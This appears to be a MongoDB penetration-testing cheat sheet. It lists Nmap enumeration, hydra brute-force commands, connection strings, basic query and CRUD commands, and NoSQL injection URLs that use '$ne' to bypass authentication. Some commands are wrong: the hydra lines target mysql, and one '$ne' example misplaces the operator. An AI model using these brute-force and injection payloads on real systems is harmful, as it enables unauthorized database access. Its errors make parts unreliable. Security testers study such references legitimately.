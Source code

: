 ```yaml
---
title: MongoDB Pentesting
desc: Default port is 27017, 27018.
tags: [27017, 27018, Database, Mongo, NoSQL]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script mongodb-info -p 27017 <target-ip>
    nmap --script mongodb-databases -p 27017 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> mysql
    hydra -L usernames.txt -p password <target-ip> mysql
    ```

<br />

## Connect

1. **Local**

    ```sh
    mongo
    mongo --port 27017
    ```

2. **Remote**

    ```sh
    mongo --host <target-ip> --port 27017 -u username -p password
    mongo "mongodb://<target-ip>:27017"
    mongo "mongodb://username:password@<target-ip>:27017/?authSource=admin"
    ```

<br />

## Basic Commands

1. **Commonly Used**

    ```sh
    # All databases
    > show dbs
    # Current database
    > db
    # Switch database if it exists, or create new if not exist
    > use db_name
    # Collections
    > show collections
    # Run javascript file
    > load("example.js")

    # List users in the current database
    > show users
    > db.admin.find()

    # Create new collection in current database
    > db.createCollection("users")
    ```

2. **CRUD**

    ```sh
    # Create
    > db.<collection_name>.insert({id: "1", username: "admin"})
    # Read
    > db.<collection_name>.find()
    > db.<collection_name>.findOne({"username":"michael"})
    # Update
    > db.<collection_name>.update({id: "1"}, {$set: {username: "king"}})
    # Delete
    > db.<collection_name>.remove({"name": "Micael"})
    # Delete all documents
    > db.<collection_name>.remove({})
    ```

3. **Operators**

    ```sh
    # $eq: equal
    # ex. username is "admin"
    db.<collection_name>.findOne({username: {"$eq": "admin"}})

    # $ne: not equal
    # ex. password is not "xyz"
    db.<collection_name>.findOne({id: "1"}, {password: {"$ne": "xyz"}})

    # $gt: greater than
    # ex. id is greater than 2
    db.<collection_name>.findOne({id: {"$gt": "2"}})

    # $where:

    # $exists:

    # $regex: 
    ```

<br />

## NoSQL Injection

If the web application uses MongDB, you might be able to fetch the user's information.  
It allows you to bypass authentication.

```sh
https://vulnerable.com/search?username=admin&password[$ne]=xyz
https://vulnerable.com/search?username[$ne]=admin&role=guest
https://vulnerable.com/search?id[$gt]=1&username=mike
```
